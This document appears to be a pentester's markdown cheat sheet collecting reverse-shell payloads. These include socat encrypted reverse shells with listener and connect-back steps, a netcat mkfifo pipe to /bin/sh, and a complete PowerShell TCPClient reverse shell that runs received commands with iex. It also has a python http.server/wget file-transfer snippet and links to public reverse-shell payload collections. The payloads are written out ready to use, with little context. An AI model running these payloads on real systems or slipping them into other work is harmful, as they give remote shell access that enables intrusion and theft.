 ```
socat OPENSSL:<attacker-ip-address>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

```




Simple payload for reverse shell on Linux creating a pipe from netcat to the shell:

```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

```

POWERSHELL REVERSE SHELL PAYLOAD:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


BEST WEBSITE FOR REVERSE AND BIND SHELL ON DIFFERENT LANGUAGES: 
    github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
    Websites with payloads for reverse and bind shells: swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/


## How can I send file on a LAN using wget ?

First host an http server using: 
```
python -m http.server

```
This will start a http server on the current path of execution of the python command.

Now you can download anything using: wget 
```
http://<sender-ip>:<send-port>/path/to/filename
```


## Socat encrypted reverse shell

Simple method:

1. setup listener: ```socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -```
2. connect back from target: ```socat OPENSSL:10.11.77.98:6969,verify=0 EXEC:/bin/bash```

Better method: (needs an openssl .pem file on the listener machine, verify=0 necessary to not check against certificate trusted authority2)
1. setup listener: ```socat OPENSSL-LISTEN:6969,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```
2. connectback from target: ```socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane```
